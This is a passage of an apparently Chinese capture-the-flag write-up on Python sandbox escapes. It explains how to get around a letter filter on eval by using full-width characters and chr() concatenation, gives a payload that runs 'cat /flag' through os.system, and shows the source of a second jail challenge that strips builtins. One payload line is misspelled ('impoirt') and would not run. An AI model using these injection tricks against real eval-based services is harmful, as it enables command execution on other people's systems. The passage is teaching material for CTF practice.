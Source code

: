 我们发现它过滤了字母，而且存在eval，能够用来进行命令执行

我们使用**全角英文**和 `chr()` 字符拼接（或八进制）即可绕过

```
_＿ｉｍｐｏｒｔ_＿(ｃｈｒ(111)+ｃｈｒ(115)).ｓｙｓｔｅｍ(ｃｈｒ(99)+ｃｈｒ(97)+ｃｈｒ(116)+ｃｈｒ(32)+ｃｈｒ(47)+ｃｈｒ(102)+ｃｈｒ(108)+ｃｈｒ(97)+ｃｈｒ(103))

__impoirt__(os.system(cat /flag))

```

用bp发包时，要注意对+进行转义，或者直接写到提交框里

### 臭皮踩踩背

题目需要用nc连接，给出了部分源码

```
def ev4l(*args):
    print(secret)
inp = input("> ")
f = lambda: None
print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
```

完整源码（wp给的）：

```
print('你被豌豆关在一个监狱里……')
print('豌豆百密一疏，不小心遗漏了一些东西…')
print('''def ev4l(*args):\n\tprint(secret)\ninp = input("> ")\nf = lambda: None\nprint(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))''')
print('能不能逃出去给豌豆踩踩背就看你自己了，臭皮…')

def ev4l(*args):
    print(secret)

secret = '你已经拿到了钥匙，但是打开错了门，好好想想，还有什么东西是你没有理解透的？'

inp = input("> ")

f = lambda: None

if "f.__globals__['__builtins__'].eval" in inp:
    f.__globals__['__builtins__'].eval = ev4l
else:
    f.__globals__['__builtins__'].eval = eval

try:
    print(eval(inp, {"__builtins__": None, 'f': f, 'eval': ev4l}))
except Exception as e:
    print(f"Error: {e}")
```

